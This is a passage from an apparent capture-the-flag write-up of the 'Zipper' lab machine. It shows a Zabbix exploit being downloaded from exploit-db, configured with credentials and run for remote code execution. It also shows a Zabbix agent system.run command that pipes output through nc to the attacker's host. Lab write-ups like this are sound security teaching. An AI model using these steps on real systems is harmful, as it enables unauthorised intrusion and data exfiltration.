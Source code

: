 ```

root@kali# wget https://www.exploit-db.com/raw/39937 -O 39937.py
--2019-02-20 14:55:28--  https://www.exploit-db.com/raw/39937
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1712 (1.7K) [text/plain]
Saving to: ‘39937’

39937                                                  100%[============================================================================================================================>]   1.67K  --.-KB/s    in 0.001s  

2019-02-20 14:55:28 (1.36 MB/s) - ‘39937.py’ saved [1712/1712]

```

Now I need to update some stuff at the top:

```

ZABIX_ROOT = 'http://10.10.10.108/zabbix'       ### Zabbix IP-address
url = ZABIX_ROOT + '/api_jsonrpc.php'   ### Don't edit

login = 'zapper'                ### Zabbix login
password = 'zapper'     ### Zabbix password
hostid = '10106'        ### Zabbix hostid

```

Now I run it, and have RCE in the Zabbix container:

```

root@kali# python 39937.py 
[zabbix_cmd]>>:  hostname
91cae047f48a

[zabbix_cmd]>>:  id
uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)

```

#### RCE on Zipper

Now I can use the Zabbix agent on Zipper to get RCE. I mentioned in Recon that I could try to talk to this port directly from Kali, but nothing comes back:

```

root@kali# echo "system.run[hostname | nc 10.10.14.14 443]" | nc 10.10.10.108 10050
root@kali# 

```
